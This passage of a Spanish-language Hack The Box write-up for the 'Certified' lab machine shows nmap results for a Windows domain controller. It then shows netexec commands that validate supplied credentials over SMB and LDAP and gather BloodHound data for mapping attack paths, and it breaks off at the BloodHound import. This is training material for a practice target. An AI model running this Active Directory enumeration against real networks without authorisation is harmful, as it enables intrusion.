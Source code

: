 ```bash
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-11T18:19:53
|_  start_date: N/A

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.01 seconds
```
## Puntos clave

Indicadores de Active Directory: Los puertos 88 (Kerberos), 389 (LDAP) y 445 (SMB) sugieren la presencia de un controlador de dominio de Windows.

Certificados SSL: Los detalles del certificado revelaron el nombre de host DC01.certified.htb y información adicional del dominio, lo que confirma el rol del objetivo como autoridad certificadora.

Firma SMB: Los scripts de Nmap indicaron que la firma SMB está habilitada y es obligatoria, lo que puede limitar algunos vectores de ataque SMB.

## Comprobación de credenciales en SMB

```bash
❯ nxc smb certified.htb -u 'judith.mader' -p 'judith09'
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09
```
Las credenciales parecen ser válidas por lo que de primeras tenemos acceso de bajo nivel.

## Comprobación de credenciales en LDAP y mapeo para BloodHound

```bash
❯ nxc ldap dc01.certified.htb -u judith.mader -p judith09 --bloodhound --collection All --dns-tcp --dns-server 10.10.11.41
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: rdp, container, psremote, acl, group, objectprops, session, localadmin, dcom, trusts
LDAP        10.10.11.41     389    DC01             Done in 00M 14S
LDAP        10.10.11.41     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.41_2025-02-11_123007_bloodhound.zip
```
Importamos el `zip` a BloodHound para obtener el posible camino de entrada al AD.
